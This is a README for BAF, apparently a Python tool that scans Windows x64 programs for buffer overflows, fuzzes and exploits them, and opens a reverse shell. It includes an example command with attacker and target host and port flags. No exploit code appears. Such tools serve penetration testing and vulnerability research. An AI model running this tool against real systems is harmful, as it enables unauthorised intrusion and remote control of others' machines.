 # BAF

Python Buffer Overflow scanner.

## Description

BAF is a tool used to scan Winx64 applications for Buffer Overflow Vulnerabilities. It's able to fuzz and exploit vulnerable applications and create a reverse shell.

## Getting Started

### Installation
```
git clone https://github.com/TralseDev/BAF.git
```

### Executing program

```
python3 main.py
```

### Examples:
```
python3 main.py --lhost 127.0.0.1 --lport 1337 --rhost 127.0.0.1 --rport 2337 --prefix="OVERFLOW_COMMAND" --timeout=5 --littleEndian
```

![](data/example.mp4)

## Help

```
python3 main.py -h
```

## Authors

Tralse

## Version History

* 1.0
    * Stable version
* 0.0
    * Beta phase

## License

This project is licensed under the GNU General Public License v3.0 (GNU GPLv3 License)

## TODOs
- offline scanner
- multi-threading
- save data to not restart all scans
- -o flag (for output > file -> logger/logging_file)
